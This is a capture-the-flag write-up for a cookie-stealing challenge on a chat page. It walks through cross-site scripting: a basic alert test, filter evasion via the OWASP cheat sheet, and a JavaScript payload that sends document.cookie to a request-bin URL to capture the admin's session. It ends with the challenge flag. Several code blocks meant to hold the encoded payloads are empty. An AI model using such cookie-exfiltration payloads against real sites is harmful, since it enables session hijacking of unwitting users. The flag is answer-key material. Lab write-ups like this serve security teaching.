



We're initially provided with a webpage including a cauliflower video and a chat system.



With the name of the challenge as a hint, we may be tasked with stealing cookies. This suggests XSS (Cross Site Scripting) will be involved. 

The first thing to try is classic XSS payload:

```html
<script>
    alert('xss')
</script>
```
This will display a pop-up with the text `XSS` if the website is vulnerable.

This, however, gets filtered out by the system:


We're going to have to be clever about this.

Using the [OWASP XSS Cheat sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet). We can try and circumvent the check.

After some trial and error we come across the payload:

```html

```

When executed it is decoded as:
```html

```

Writing a quick python script to encode this gives us the ability to make custom XSS exploits that will pass the filter.

To steal the cookie, we're going to use a "request bin" this will absorb and record all values sent to it.

Using the link to the newly initialized request bin, we can form the payload:
```javascript
javascript:document.location='https://postb.in/1561312937795-3777385130524?cookie='+document.cookie;
```
This will take all the values stored in cookies and send them to the url. This will allows us to view the values of all cookies.

And when encoded gives us this unit:
```html

```

That when entered will re-direct your own page as well as the admins.

This will provide this output in the request bin



Thus, giving us the flag!

FLAG:
```
CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}
```